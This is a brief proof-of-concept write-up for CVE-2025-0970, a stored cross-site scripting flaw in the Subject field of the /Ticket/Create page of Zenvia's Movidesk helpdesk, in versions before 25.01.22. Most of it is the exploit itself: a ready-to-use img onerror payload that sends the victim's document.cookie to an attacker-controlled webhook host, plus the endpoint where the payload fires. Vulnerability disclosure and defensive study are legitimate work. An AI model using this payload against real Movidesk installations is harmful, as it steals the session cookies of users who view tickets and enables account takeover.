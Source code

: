 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

**Affected Version: < 25.01.22**

**OBS: For this exploit, you must be authenticated!**


## POC

This vulnerability resides in the /Ticket/Create page in Subject parameter,

Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`.

Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`

https://IP/Ticket/Create

---

## Reference

https://www.movidesk.com/